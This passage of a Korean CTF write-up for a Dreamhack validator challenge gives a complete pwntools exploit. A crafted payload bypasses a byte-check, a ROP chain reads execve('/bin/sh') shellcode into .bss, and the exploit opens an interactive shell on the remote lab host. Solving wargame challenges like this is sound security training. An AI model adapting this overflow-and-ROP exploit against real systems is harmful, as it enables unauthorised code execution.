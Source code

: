 ```
read(0, bss, len(shellcode))
```

전체 Exploit 코드는 아래와 같으며, `p.send()`를 보내기 전에 `sleep(0.5)`로 텀을 두지 않으면 쉘이 바로 종료되는 오류가 발생해서 이 부분을 주의하자.

```
from pwn import *

context.arch = "amd64"

p = remote('host3.dreamhack.games', 9820)
elf = ELF('./validator_server')
r = ROP(elf)


# [1] validate

payload = b"DREAMHACK!"  # index : 0 ~ 9
payload += b'A'          # index : 10

# index : 11 ~ 128 (s[128]에도 대입해줘야 s[127]의 비교에서 exit가 발생하지 않음)
for i in range(127, 9, -1):   # 127 ~ 10 까지 -1씩 감소시키며 (char 범위는 -128 ~ 127 이므로, 범위를 127부터 해줘야함)
    payload += bytes([i])     # 바이트 문자열로 변환
    # payload += p8(i)        # 이렇게 해도됨

payload += b'a' * 0x7         # SFP : 앞에서 SFP의 첫번째 바이트까지 넘어왔기 때문에 7바이트만 덮어야함

# index : 10 ~ 128 + SFP -> 총 126 바이트
# for i in range(126, 0, -1):  # 127 ~ 1 까지 -1씩 감소시키며
#     payload += bytes([i])     # 바이트 문자열로 변환
#     # payload += p8(i)        # 이렇게 해도됨

print(len(payload))

# [2] ROP
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
# ret = r.find_gadget(['ret'])[0]

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))
# shellcode = asm(shellcraft.sh()) # 이것도 사용 가능
bss = elf.bss()

read_plt = elf.plt['read']

# payload += p64(ret)
payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(bss) + p64(0)
payload += p64(pop_rdx) + p64(len(shellcode))
payload += p64(read_plt)

payload += p64(bss)

# main의 read
sleep(0.5)
p.send(payload)

# ROP의 read
sleep(0.5)
p.send(shellcode)

p.interactive()
```
